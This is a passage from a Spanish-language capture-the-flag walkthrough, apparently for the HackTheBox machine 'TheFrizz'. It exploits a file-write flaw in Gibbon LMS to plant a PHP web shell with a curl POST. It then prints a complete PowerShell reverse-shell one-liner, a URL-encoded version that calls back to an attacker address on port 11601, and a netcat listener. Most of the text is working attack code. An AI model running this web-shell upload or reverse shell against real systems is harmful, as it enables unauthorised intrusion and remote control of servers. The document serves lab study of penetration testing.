 ```bash
❯ curl -X POST http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php -d "img=image/png;61d59b0f4294,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4K%2b&path=61d59b0f4294.php&gibbonPersonID=0000000001"
```

Y podremos confirmar que se ha subido si visitamos el archivo desde __el root de la instalación gibbon__:

![UTMP]({{ "/images/TheFrizz/created.png" | relative_url }})

Y para usarla, sólo necesitamos utilizar el parámetro `cmd` y el comando a utilizar:

![UTMP]({{ "/images/TheFrizz/executed.png" | relative_url }})

### Enumeración y Dumpeo de MySQL

Ahora, ya con un método de ejecución de comandos, por comodidad prefiero moverme en una reverse shell; hay un payload oneliner de powershell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP ATACANTE>',<PUERTO>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Si queremos ejecutarlo desde esta instancia; sólo debemos indicar que queremos que powershell lo ejecute (`powershell.exe -c `) poner todo el comando entre comillas y finalmente, codificarlo en URL para que funcione la ejecución:

```bash
http://frizzdc.frizz.htb/Gibbon-LMS/61d59b0f4294.php?cmd=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.2%27%2C11601%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Este comando abre una __sesión interactiva de powershell__ utilizando el `System.Net.Sockets` y establece una conexión TCP hacia la dirección y puerto indicado, también se crea un stream asociado al socket de conexión que puedes verlo como un tunel donde envías datos (los comandos, que se ejecutan con `iex` o `Invoke-Expression`) y recibes datos (la salida del comando ejecutado es capturado y enviado en el stream).

Antes de ejecutarlo (no olvides indicar tu IP de atacante y el puerto), ponemos a la escucha el `netcat` y recibir la shell.

```bash
❯ nc -nlvp 11601
Listening on 0.0.0.0 11601
```
